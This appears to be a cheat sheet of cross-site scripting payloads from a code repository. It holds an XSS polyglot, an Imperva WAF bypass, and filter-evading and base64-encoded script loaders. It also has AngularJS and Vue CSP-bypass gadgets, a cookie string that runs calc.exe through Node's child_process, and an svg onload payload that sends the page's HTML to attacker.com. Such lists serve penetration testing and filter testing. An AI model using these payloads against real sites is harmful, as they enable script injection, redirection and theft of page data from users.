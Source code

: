 // clrf -  http://polyglot.innerht.ml/
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=document.location=`//localhost/mH`//>
<iframe/onload="var b = 'document.domain)'; var a = 'JaV' + 'ascRipt:al' + 'ert(' + b; this['src']=a">

<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
<bleh/onclick=top[/al/.source+/ert/.source]&Tab;``>click
<svg/onload="(new Image()).src='//attacker.com/'%2Bdocument.documentElement.innerHTML">

<div style="background:url(/f#&#127;oo/;color:red/*/foo.jpg);">X
<svg/whatthe=""onload=alert(45)>
%60%7D%2b%22%2balert(1337);x=%60%7D%7B(class%20$%7By=%60

"><script src=data:text/javascript;base64,ZD1kb2N1bWVudDsgXyA9IGQuY3JlYXRlRWxlbWVudCgnc2NyaXB0Jyk7Xy5pZD0nMTknO18ubm9uY2U9ZC5xdWVyeVNlbGVjdG9yKCdbbm9uY2VdJykubm9uY2U7Xy5zcmM9Jy8vbG9jYWxob3N0L20nO2QuYm9keS5hcHBlbmRDaGlsZChfKSA=></script>

"><script src='https://domain'></script>

<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
"><div v-html="''.constructor.constructor('d=document;d.location.hash.match(\'x1\') ? `` : d.location=`//localhost/mH`')()"> aaa</div>

<form><button formaction=javascript:top['ev'+'al'](self['\x61\x74\x6f\x62'](`YWxlcnQoMSk7`));//


Imperva WAF Bypass for XSS;
<details/open/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];">
- without parentheses, 'alert', 'document.domain' , 'window' , space
"<svg/onload=alert(1)>"@x.y
javascript://%250Aalert(1)
javascript://%250A1?alert(1):0
" formaction=java%26Tab%3bscript:ale%26Tab%3brt() type=image src=""
javascript://%250Aalert(1)//?1
javascript://https://domain.com/%250A1?alert(1):0
12345678901<svg onload=alert(1)>
\'-alert(1)//
'-alert(1)-'

with (l33t()) {
  c0ns0l3.w4rn('l33t');
  al3rt('w00t');
}

document.cookie = "test='/require('child_process').exec('calc.exe')//"

function l33t(p=this){return new Proxy(p,{has:()=>!0,get:(t,n)=>(p=Reflect.get(t,String(n).replace(/\d/g,a=>'oizeasGtBg'[a])))?p.apply?p.bind(t):l33t(p):p})}

<svg onload='alert(1)'/>

<input autofocus onfocus=alert(1)>

<video><source onerror="JavaScript:alert(1)">
